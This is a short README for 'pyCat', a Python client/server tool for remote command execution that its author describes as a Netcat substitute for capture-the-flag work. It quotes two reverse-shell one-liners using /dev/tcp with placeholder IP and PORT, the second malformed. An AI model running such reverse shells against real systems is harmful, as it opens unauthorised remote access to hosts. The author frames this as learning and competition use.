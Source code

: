 # pyCat
Simple python-based client/server for interacting with remote systems.
No installation necessary. 
Just drop and run.

WARNING!
---------
You will be opening up a system to remote command execution if you run this!

Why pyCat?
----------
Many times in my CTF adventures, I would find Netcat installed, but the '-e' option wouldn't be available. 

Yes, I know there are other ways to get reverse-shell when you have command-injection on a system, but I really like the ease of Netcat. 

Plus sometimes the shells I get using... 

  `bash -i >& /dev/tcp/IP/PORT 0>&1`
  
  or 
  
  `/bin/bash -c '/bin/bash>/dev/null/IP/PORT 2>&1 0>&1'`
  
...can be inconsistent in the way they act from time to time.



So, I found myself wanting to have a stand-alone executable of Netcat for Linux systems, but didn't find one after searching for a **SOLID** 10 minutes. It also had the added benefit of being a good way to learn more Python.


Thanks to **Justin** for helping me debug the socket connection.
